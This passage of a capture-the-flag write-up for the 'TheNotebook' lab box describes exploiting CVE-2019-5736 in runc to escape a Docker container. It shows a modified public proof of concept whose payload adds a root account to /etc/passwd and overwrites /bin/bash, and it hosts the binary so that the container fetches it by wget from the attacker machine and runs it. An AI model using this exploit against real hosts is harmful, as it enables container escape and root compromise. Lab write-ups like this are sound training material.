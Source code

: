 ```bash
noah@thenotebook:~$ runc -v
runc version 1.0.0~rc6+dfsg1
commit: 1.0.0~rc6+dfsg1-3
spec: 1.0.1
noah@thenotebook:~$ docker -v
Docker version 18.06.0-ce, build 0ffa825
```

On the attacker machine the [PoC from Frichetten](https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go) was downloaded, the payload was adjusted to inject a malicious root user, and then hosted for the download on the target:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ wget https://raw.githubusercontent.com/Frichetten/CVE-2019-5736-PoC/master/main.go -O privesc.go
...
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ nano privesc.go
...
var payload = "#!/bin/bash \n echo 'root2:AK24fcSx2Il3I:0:0:root:/root:/bin/bash' >> /etc/passwd"
...
fd, err := os.Create("/bin/bash")
...
fmt.Println("[+] Overwritten /bin/bash successfully")
...

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ go build privesc.go

┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/exploit]
└─$ sudo python3 -m http.server 80

[sudo] password for kali: 
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

The exploit was downloaded inside the docker container and executed:

```bash
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
root@719a30d9c793:/opt/webapp# wget 10.10.14.24/privesc
--2021-05-01 11:24:09--  http://10.10.14.24/privesc
...
root@719a30d9c793:/opt/webapp# chmod +x privesc
root@719a30d9c793:/opt/webapp# ./privesc 
[+] Overwritten /bin/bash successfully
 < exploit paused >
```

From another SSH session the exploit was then triggered: Session 2:

```bash
┌──(kali㉿kali)-[~/…/HTB/box/TheNotebook/loot]
└─$ ssh noah@10.10.10.230 -i noah.key 
...
noah@thenotebook:~$ sudo /usr/bin/docker exec -it webapp-dev01 /bin/bash
No help topic for '/bin/bash'
```
